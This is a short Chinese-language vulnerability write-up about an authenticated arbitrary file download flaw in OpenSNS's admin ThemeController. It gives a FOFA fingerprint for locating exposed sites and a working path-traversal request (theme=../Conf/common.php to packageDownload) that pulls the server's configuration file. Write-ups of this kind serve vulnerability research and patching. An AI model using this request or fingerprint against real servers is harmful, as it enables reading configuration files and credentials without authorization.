 # OpenSNS ThemeController.class.php 后台任意文件下载漏洞

## 漏洞描述

OpenSNS ThemeController.class.php文件中存在文件下载，其中过滤不足导致可以下载服务器任意文件

## 漏洞影响

```
OpenSNS
```

## FOFA

```
icon_hash="1167011145"
```

## 漏洞复现

登录页面如下

![image-20220518154815562](./images/202205181548621.png)

存在漏洞的文件为 `Application/Admin/Model/ThemeController.class.php`

![image-20220518154826306](./images/202205181548388.png)

其中 theme参数为用户可控参数，根据函数流程可以发现存在的文件将会打包为 zip文件提供下载

![image-20220518154838931](./images/202205181548023.png)

构造请求

```
POST /admin.php?s=/theme/packageDownload

theme=../Conf/common.php
```

![image-20220518154851785](./images/202205181548889.png)